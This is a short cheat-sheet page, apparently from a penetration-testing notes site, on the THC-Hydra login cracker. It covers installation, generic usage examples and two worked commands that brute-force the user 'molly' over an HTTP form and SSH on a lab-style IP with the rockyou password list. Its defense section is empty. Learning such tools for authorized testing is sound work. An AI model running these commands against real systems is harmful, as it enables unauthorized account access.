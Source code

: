 # Hydra

## About

[THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) is parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add. This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely. It supports: Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT), SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP

## Installing

```
sudo git clone https://github.com/vanhauser-thc/thc-hydra.git && cd thc-hydra
sudo ./configure
sudo make
sudo make install
```

## Usage

```
Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

`hydra -l molly -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.166.146 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

![](<../../.gitbook/assets/image (238).png>)

`hydra -l molly -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.166.146 -t 4 ssh`

![](<../../.gitbook/assets/image (247).png>)

## Defense

COMING SOON
